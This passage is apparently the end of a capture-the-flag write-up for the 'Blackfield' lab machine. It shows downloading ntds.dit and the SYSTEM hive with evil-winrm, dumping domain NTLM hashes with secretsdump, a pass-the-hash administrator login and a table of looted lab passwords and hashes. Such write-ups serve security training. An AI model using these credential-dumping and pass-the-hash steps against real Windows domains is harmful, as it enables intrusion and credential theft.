 Download the files to the attack box with the evil-winrm download command, and extract the hashes :

```shell
download ntds.dit
download system
```

```shell
secretsdump -ntds ntds.dit -system system LOCAL
```

output

```text
[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
[*] Reading and decrypting hashes from ntds.dit
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:7f82cc4be7ee6ca0b417c0719479dbec:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
audit2020:1103:aad3b435b51404eeaad3b435b51404ee:600a406c2c1f2062eb9bb227bad654aa:::
support:1104:aad3b435b51404eeaad3b435b51404ee:cead107bf11ebc28b3e6e90cde6de212:::
...
svc_backup:1413:aad3b435b51404eeaad3b435b51404ee:9658d1d1dcd9250115e2205d9f48400d:::
BLACKFIELD.local\lydericlefebvre:1414:aad3b435b51404eeaad3b435b51404ee:a2bc62c44415e12302885d742b0a6890:::
PC01$:1415:aad3b435b51404eeaad3b435b51404ee:de1e7748b6b292bfff4fd5adb54b4608:::
...
[*] Kerberos keys from ntds.dit
```

So we now have administrator hash from active directory : 184fb5e5178480be64824d4cd53b99ee

An administrator shell can be opened with :

```shell
evil-winrm -i ${TARGET} -u blackfield\\administrator -H 184fb5e5178480be64824d4cd53b99ee
```

```text
Evil-WinRM shell v3.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

## Loots

### credentials

| Username  					| Password  		| Hash      		| Usage     |
| ---       					| ---       		| ---       		| ---       |
| `blackfield\support`  		| `#00^BlackKnight` |       			|			|
| `blackfield\audit2020`		| `password1234!`	|					|			|
| `blackfield\svc_backup`		| 					| 9658d1d1dcd9250115e2205d9f48400d | winRM |
| `blackfield\administrator`	| 					| 7f1e4ff8c6a8e6b6fcae2d9c0572cd62 | not working/password changed |
| `blackfield\administrator`	| 					| 184fb5e5178480be64824d4cd53b99ee | winRM |

